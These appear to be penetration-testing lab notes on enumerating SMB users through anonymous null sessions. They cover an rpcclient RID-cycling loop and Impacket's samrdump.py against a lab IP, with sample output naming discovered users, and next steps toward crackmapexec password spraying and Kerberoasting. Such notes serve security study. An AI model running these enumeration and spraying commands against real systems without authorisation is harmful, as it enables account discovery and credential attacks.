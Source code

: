 Here’s a **clean, hacker-friendly summary** of the enumeration process with `rpcclient` and `Impacket`:

---

# **Enumerating SMB Users via RPC**

## **1. Using `rpcclient` for RID Cycling**

### **Command**

```bash
for i in $(seq 500 1100); do
  rpcclient -N -U "" 10.129.14.128 -c "queryuser 0x$(printf '%x\n' $i)" | \
  grep "User Name\|user_rid\|group_rid" && echo "";
done
```

### **Explanation**

- `seq 500 1100` → Cycle through **RID range** (commonly where user IDs start).
    
- `-N -U ""` → **Null session** login.
    
- `queryuser` → Queries user info by RID.
    
- `printf '%x\n' $i` → Converts integer RID to hex.
    

### **Sample Output**

```
User Name   : sambauser
user_rid    : 0x1f5
group_rid   : 0x201

User Name   : mrb3n
user_rid    : 0x3e8
group_rid   : 0x201

User Name   : cry0l1t3
user_rid    : 0x3e9
group_rid   : 0x201
```

**Findings:**

- Users discovered:
    
    - `sambauser`
        
    - `mrb3n`
        
    - `cry0l1t3`
        

---

## **2. Dumping User Info with Impacket – `samrdump.py`**

### **Command**

```bash
samrdump.py 10.129.14.128
```

### **Sample Output**

```
[*] Looking up users in domain DEVSMB
Found user: mrb3n, uid = 1000
Found user: cry0l1t3, uid = 1001

mrb3n (1000)/PasswordLastSet: 2021-09-22 17:47:59
mrb3n (1000)/AccountIsDisabled: False

cry0l1t3 (1001)/FullName: cry0l1t3
cry0l1t3 (1001)/PasswordLastSet: 2021-09-22 17:50:56
cry0l1t3 (1001)/AccountIsDisabled: False
```

---

## **3. Key Insights**

- **Null sessions are enabled**, allowing anonymous RID cycling and user enumeration.
    
- Enumerated valid usernames:
    
    - `sambauser`
        
    - `mrb3n`
        
    - `cry0l1t3`
        
- Useful for:
    
    - Brute-force or password-spraying attempts.
        
    - Leveraging SMB-related attacks (relay, hash capture, etc.).
        

---

## **4. Next Steps**

- Use `crackmapexec` for further SMB enumeration:
    
    ```bash
    crackmapexec smb 10.129.14.128 -u users.txt -p passwords.txt
    ```
    
- Try `smbclient` to explore shares:
    
    ```bash
    smbclient -L \\10.129.14.128 -U mrb3n
    ```
    
- Combine with **password spray** or **Kerberoasting** if domain integration is present.
    

---
